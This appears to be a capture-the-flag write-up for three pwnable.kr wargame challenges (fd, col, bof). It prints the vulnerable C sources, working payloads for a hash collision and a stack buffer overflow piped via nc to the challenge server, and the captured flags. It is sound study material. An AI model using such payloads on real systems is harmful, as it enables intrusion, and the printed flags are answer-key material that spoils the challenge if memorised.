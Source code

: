 # fd
>Mommy! what is a file descriptor in Linux?<br><br>* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU<br><br>ssh fd@pwnable.kr -p2222 (pw:guest)

Let's look at `fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: `./col \`python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'\``

flag: daddy! I just managed to create a hash collision :)

bof

bof.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

Classic buffer overflow question. In the assembly we see that $ebp-0x2c is set for the buffer, and it checks if $ebp + 0x8 == 0xcafebabe. So what we do is we set 52 A's, then have our 0xcafebabe. We accomplish this with the following payload: python -c "print 'A'*52+'\xbe\xba\xfe\xca'". However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing when at the end of the func function. So we modify our payload: (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat). We run (python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000 and then run ls, see the flag file, and run cat flag, and get our flag.

flag: daddy, I just pwned a buFFer :)





